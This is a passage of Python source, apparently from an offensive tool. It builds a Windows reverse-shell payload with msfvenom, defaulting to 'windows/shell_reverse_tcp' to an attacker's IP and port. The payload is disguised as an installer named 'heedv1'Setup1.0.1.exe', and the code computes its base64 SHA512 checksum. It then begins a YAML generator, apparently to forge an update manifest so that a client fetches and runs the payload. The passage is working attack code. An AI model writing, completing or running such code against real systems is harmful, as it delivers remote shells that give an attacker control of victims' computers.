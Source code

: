 ```python
    payload_path = ""

    payload_name = "heedv1'Setup1.0.1.exe"

    #get payload options, taking --payload as priority over --msf_payload if both provided
    if args.payload is not None:
        payload_path = Path(args.payload)

        print("Payload Path: " + str(payload_path))

    else:
        if args.msf_payload is not None:
            #get payload to use with msfvenom
            msf_payload = args.msf_payload

            print("Using payload " + str(msf_payload) + " with msfvenom")
        
        else:
            #default payload
            msf_payload = "windows/shell_reverse_tcp"

            print("No --msf_payload or --payload flag provided. Using default windows/shell_reverse_tcp payload and generating with msfvenom")

        #generate shell payload
        gen_payload(ip, port, msf_payload, path)

        payload_path = path + payload_name
        print("Payload saved at: " + payload_path)
    
    #get size of payload
    size = os.path.getsize(Path(payload_path))
    print("Size: " + str(size))

    sum = gen_checksum(Path(payload_path))

    return payload_name, size, sum

def gen_checksum(filepath):
    """generate a sha512 hash of the file and base64 encode it"""

    #set a buffer size to hash in chunks
    BUF_SIZE = 65536

    sha512 = hashlib.sha512()

    with open(filepath, 'rb') as f:
        while True:
            data = f.read(BUF_SIZE)
            if not data:
                break
            sha512.update(data)

    b64 = base64.b64encode(sha512.digest()).decode('utf-8')

    print("Base64-encoded SHA512-sum of payload: " + b64)

    return b64

def gen_yaml(ip, payload, size, sum, dir):

    print("\n=== Generating YAML File ===\n")

```
